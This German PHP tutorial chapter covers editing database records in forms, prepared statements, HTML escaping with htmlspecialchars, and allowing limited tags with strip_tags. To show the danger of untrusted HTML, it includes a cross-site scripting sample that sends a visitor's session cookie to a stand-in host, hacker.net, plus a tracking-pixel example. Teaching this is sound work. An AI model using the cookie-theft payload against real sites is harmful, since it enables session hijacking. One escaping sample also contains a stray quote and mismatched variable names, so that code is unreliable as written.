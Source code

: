 ```yaml
---
title: Daten Bearbeiten
order: 40
---
```


Wir wollen einen Datensatz aus der Datenbank laden, in einem Formular zur Bearbeitung anbieten, und dann wieder in der Datenbank speichern.

![Abbildung 150: Formular zum Bearbeiten einer Person](/images/person_edit.png)

Das Lesen des Datensatzes aus der Datenbank erfolgt nun auch mit einem prepared Statement:

<php caption="laden des Datensatzes, der editiert werden soll">
$sth = $dbh->prepare( "SELECT * FROM users WHERE id=?" );
$sth->execute( array( $id ) );
$sth->setFetchMode(PDO::FETCH_OBJ);
$person = $sth->fetch();
</php>

Bei der Darstellung des Bearbeitungs-Formulars werden die Daten nun als Standardwerte dargestellt. Das passiert bei Textfeldern mit dem Value-Attribute und bei Textareas als Inhalt des Tags:

<htmlcode>
  <input name="firstname" value="Tobias">
  <textarea name="description" rows="7">Webdesigner und Programmierer.</textarea>
</htmlcode>

Achtung: Falls in den Daten Anführungszeichen, kaufmännische Unds oder Kleiner-Zeichen vorkommen müssen diese für HTML escaped werden.  Hier ein Beispiel in MySQL:

<sql>
mysql> select firstname,description from users where id=438;
+-----------+--------------------------------+
| firstname | description                    |
+-----------+--------------------------------+
| Tobias    | Mein Lieblings-Tag ist <style> | 
+-----------+--------------------------------+
1 row in set (0.00 sec)
</sql>

So würde die Darstellung der Eingabefelder nicht funktionieren:

<htmlcode>
  <input name="firstname" value="Tobias "the coder" " />
  <textarea name="description" rows="7">Mein Lieblings-Tag: <style></textarea>
</htmlcode>

Richtig ist die Darstellung gewisser Zeichen als HTML entities:

<htmlcode>
  <input name="firstname" value="Tobias &quot;the coder&quot; " />
  <textarea name="description" rows="7">Mein Lieblings-Tag: &lt;style&gt;</textarea>
</htmlcode>

Diese Ersetzung wird mit der Funktion htmlspecialchars vorgenommen:

<php>
htmlspecialchars( $person->firstname  );
</php>

Zusammenfassend sieht die Darstellung des Eingabeformulars so aus:

<php caption="Darstellung eines Eingabe-Felds des Edit-Formulars mit PHP">
<p><label for="firstname">Vorname</label> 
<input name="firstname" value="<?= htmlspecialchars( $person->firstname ) ?>"></p>
</php>

Die veränderten Daten werden mit POST an person_edit.php geschickt. Aus den Daten wird ein UPDATE-Statement erstellt:

<php caption="Update der Daten von PHP aus">
$sth = $dbh->prepare(
  "UPDATE users SET
    firstname=?,surname=?,email=?,profile_visible=?,
    updated_at=NOW(),description=?,slug=?
   WHERE id=?");

$update_went_ok = $sth->execute(
        array(
          $_POST['firstname'],
          $_POST['surname'],
          $_POST['email'],
          $_POST['profile_visible'],
          $_POST['description'],
          $_POST['slug'],
          $_POST['id'],
        )
);

header("Location: person.php?pid=" . $_POST['id']);
exit;
</php>

Escapen von HTML
-----------------
Das Escapen der Daten für HTML hätten wir von Anfang an bei jeder Ausgabe von Daten aus der Datenbank durchführen müssen. Wir haben bisher einfach die Daten direkt mit echo ausgegeben:

<php caption="Ausgabe von Daten aus der Datenbank ohne html-escaping">
<?= $person->firstname ?>
<?= $person->surname ?>
hat insgesamt  <?= $no ?> Werke in dieser Datenbank.
// problematisch!
</php>

Wenn hier in der Description „Mein Lieblings-Tag ist &lt;style&gt;“ steht, und dieser Text einfach ausgegeben wird, dann „verschwindet“ der Rest der Webseite, weil er sich nun innerhalb eines Style-Tags befindet.

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = htmlspecialchars( $person->description' );

echo <<<EOM
    <p>$anrede $vorname $nachname hat insgesamt $no Werke in dieser Datenbank.
    $ersie hat den Usernamen $username.</p>

    <div>$description</div>
EOM;
</php>

Damit funktioniert nun die Darstellung des Datensatzes richtig:

![Abbildung 151: Korrekte Darstellung eines Datensatzes mit kleiner-Zeichen](/images/image369.png)

 Darstellen von HTML
---------------------
Im letzten Beispielen wurde der eingegebene HTML-Tag sichtbar auf der Webseite angezeigt. Wie kann man HTML-Tags eingeben, abspeichern, und als HTML-Tags wieder anzeigen?

### Gefahren
Zuerst eine Warnung: Die Anzeige von HTML das von Fremden eingegeben wurde ist gefährlich! Dazu zwei Beispiele: Sie bauen ein Gästebuch in dem BesucherInnen beliebiges HTML abspeichern können. Herr Lauscher trägt dort ein Bild ein:

<htmlcode>
<img src="http://lauscher.net/bild.php?woher=gaestebuch_mmt" alt="harmloses bild">
</htmlcode>

Das Bild wird also nicht von Ihrem Webserver geladen, sondern vom Webserver von Herrn Lauscher. Und dort wird gleich ein php-Programm zum Erzeugen des Bildes aufgerufen. D.h. Herr Lauscher kann sehr bequem mit-loggen wie viele Zugriffe auf das Gästebuch erfolgen. Falls Herr Lauscher die Gästebuch-Besucher schon kennt (schon ein Cookie in Ihrem Browser gesetzt hat) kann er sie auch identifizieren.

Sie haben Herrn Lauscher also die Möglichkeit gegeben sehr viel über Ihre BesucherInne zu erfahren. So etwas ähnliches passiert z.B. wenn Sie Google Analytics in Ihre Webseite einbinden um Zugriffs-Statistiken zu erstellen: Google erfährt von jedem Zugriff auf Ihre Seite, Google kennt viele BesucherInnen schon (weil Sie bei gmail.com eingeloggt sind oder von einer vorhergehenden Suche noch ein Cookie haben.)

Im zweiten Beispiel gibt Frau Hacker neben einem Bild noch etwas Javascript ein:

<htmlcode>
Hallo Welt 

<img src="http://hacker.net/bild.php" alt="harmloses bild" id="hack_tool" />
<script>
   document.getElementById("hack_tool").src += "?keks=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile Javascript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
<img id="hack_tool" alt="harmloses bild" 
src="http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

So kann Frau Hacker das Cookie einer BesucherIn Ihres Gästebuchs entwenden. Sie kann nun das Cookie verwenden um als eingeloggter User Ihre Seite zu benützen!

Lassen Sie niemals, niemals, niemals zu, dass Fremde Javascript in Ihre Site einspeisen können!

Noch hat unsere Applikation dieses Problem nicht: Wenn Frau Hacker Ihren Code z.B. in das Profil einer Person eingibt wir der Code htmlescaped angezeigt und „wirkt nicht“:

![Abbildung 152: Eingegebener HTML+Javascript-Code wird escaped und dargestellt](/images/image370.png)

### Sichere Eingabe von HTML

Für die Beispiel-Applikation wollen wir Zulassen, dass im Profil die HTML-Tags &lt;p&gt; und &lt;b&gt; verwendet werden können, mehr nicht. Dass es nur diese Tags und keine anderen sind wird bei der Eingabe und der Bearbeitung sicher gestellt:

<php>
$description = strip_tags( $_POST['description'], "<p><b>" );
</php>

Nun können Sie auch die Ausgabe des Profils umstellen und auf das escapen verzichten:

Die Eingabe des HTML-Codes können Sie mit einem Javascript-Editor wie TinyMCE erleichtern. TinyMCE verwandelt eine normale Textarea in einen wysiwyg-Editor:

![Abbildung 153: Normale Textarea (oben) kann mit TinyMCE in einen wysiwyg-Editor (unten) verwandelt werden](/images/image371.png)

Mit HTML5 gibt es auch die möglichkeit ohen Textfeld, mit content-editable einen Editor zu erstellen. Ein
Beispiel dafür ist der Aloha Editor:

![Abbildung 153b: Aloha Editor](/images/aloha.png)


